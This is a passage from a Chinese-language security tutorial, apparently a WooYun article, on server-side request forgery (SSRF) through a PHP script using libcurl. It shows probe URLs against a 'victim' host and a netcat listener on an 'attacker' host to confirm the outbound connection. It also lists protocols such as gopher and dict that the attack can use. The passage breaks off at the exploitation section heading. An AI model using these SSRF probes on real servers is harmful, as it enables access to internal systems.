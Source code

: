 我们测试加载图片，访问

`http://victim:8084/ssrf.php?url=http://download.easyicon.net/png/1199986/96/`

[![](http://static.wooyun.org//drops/20160318/2016031808183819379.jpg)](http://drops.wooyun.org/wp-content/uploads/2016/03/75B3CE55-D9FA-4F05-9B81-AE3385E9676A.jpg)

测试SSRF，在另一台机器上执行`nc -l -v 11111`，监听11111端口

访问`http://victim:8084/ssrf.php?url=http://attacker:11111/`

[![](http://static.wooyun.org//drops/20160318/2016031808183850391.jpg)](http://drops.wooyun.org/wp-content/uploads/2016/03/D2479565-6067-49CF-B12B-E4EF2D77BCA3.jpg)

0x02 可利用的协议
-----------

* * *

**报告里给出的可利用的协议有**

*   SSH (scp://, sftp://)
*   POP3
*   IMAP
*   SMTP
*   FTP
*   DICT
*   GOPHER
*   TFTP

我们来看一下Ubuntu14.04下默认的libcurl支持哪些协议

因为docker ubuntu image没有curl，所以安装`apt-get install -y curl`

然后执行`curl -V`

```
root@ubuntu:/app# curl -V
curl 7.35.0 (x86_64-pc-linux-gnu) libcurl/7.35.0 OpenSSL/1.0.1f zlib/1.2.8 libidn/1.28 librtmp/2.3
Protocols: dict file ftp ftps gopher http https imap imaps ldap ldaps pop3 pop3s rtmp rtsp smtp smtps telnet tftp
Features: AsynchDNS GSS-Negotiate IDN IPv6 Largefile NTLM NTLM_WB SSL libz TLS-SRP

```

可以看到

```
Protocols: dict file ftp ftps gopher http https imap imaps ldap ldaps pop3 pop3s rtmp rtsp smtp smtps telnet tftp

```

中，并没有SSH(scp://, sftp://)，所以默认是不支持的SSH协议的，需要自己下载源码重现编译安装，可以参考[这篇文章](http://wiki.hetzner.de/index.php/Curl_fuer_sftp/en)。

0x03 利用方式
---------

* * *
